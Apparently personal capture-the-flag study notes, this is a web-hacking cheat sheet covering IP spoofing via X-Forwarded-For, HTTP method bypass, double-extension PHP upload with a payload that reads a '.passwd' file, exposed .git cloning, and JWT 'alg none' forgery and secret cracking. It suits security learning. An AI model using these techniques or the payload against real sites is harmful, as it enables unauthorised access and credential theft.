 # Random Hacks
PHPBB
* Look through the file structure and try and access through the URL
* https://www.phpbb.com/community/viewtopic.php?t=2166305

IP-Spoofing
Intranets
* Assigned ranges include:
     10.0.0.0        -   10.255.255.255  (10/8 prefix)
     172.16.0.0      -   172.31.255.255  (172.16/12 prefix)
     192.168.0.0     -   192.168.255.255 (192.168/16 prefix)
* Use X-Forwarded-For Header

WWW-Authenticate Realm
* Submission of username and password
   	* Just passed in as a base64 encode of user:password
* Some methods will be blocked, others not
   	* Maybe they disallow non-admins from GET and POST... but what about PUT? DELETE?

OS Injection through PHP File
* If you are able to upload a PHP file in the place of a img or something
   	* Try a double extension to trick it into accepting
   	* Create a PHP file that accesses sensitive data
<html>
<body>
<h1>My first PHP page</h1>
<?php
$myfile = fopen("../../../.passwd", "r") or die("Unable to open file!");
echo fread($myfile,filesize("../../../.passwd"));
fclose($myfile);
?>
</body>
</html>

Exposes Git Repo
* sometimes the git history of a page is accessible by the public :(
* add a /.git at the end of a URL to see if it's available
* traverse through to see if there is anything sensitive an attacker can exploit
* use wget -r “url" to clone the repo to your desktop
   	* Try doing it in WSL
* Then you can view the history of the repository.

JWT
* https://jwt.io
* JSON web token is broken up into 3 parts
   	* Header, Payload (both encoded in BASE64) and Signature (encoded using technique specified in header)
* HACK
   	* Change the alg in header to “none” and remove the signature so that it isn't validated (depending on the validation happening in the background). Then you can change payload to contain whatever you want (e.g. change username to admin)
   	* http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Hacking%20JSON%20Web%20Token%20(JWT)%20-%20Rudra%20Pratap.pdf
   	* http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Attacking%20JWT%20authentication%20-%20Sjoerd%20Langkemper.pdf
* You can use John the Ripper to crack the secret key of the signature (especially if you add the --format=HMAC-SHA*** tag)

